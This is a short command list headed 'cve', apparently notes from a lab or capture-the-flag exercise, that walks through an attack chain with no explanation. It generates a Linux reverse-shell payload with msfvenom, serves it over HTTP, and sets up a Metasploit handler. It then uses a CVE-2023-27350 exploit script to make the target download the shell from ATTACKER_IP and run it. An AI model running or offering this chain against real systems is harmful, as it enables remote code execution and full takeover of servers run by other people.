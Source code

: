 # cve

msfvenom -p linux/x86/shell/reverse_tcp -f elf LHOST=ATTACKER_IP LPORT=4444 -o shell.elf

python3 -m http.server 8080

msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; exploit"

python3 CVE-2023-27350.py -u http://MACHINE_IP:9191 -c "wget http://ATTACKER_IP:8080/shell; chmod +x shell; ./shell"

python3 CVE-2023-27350.py -u http://MACHINE_IP:9191 -c "./shell"
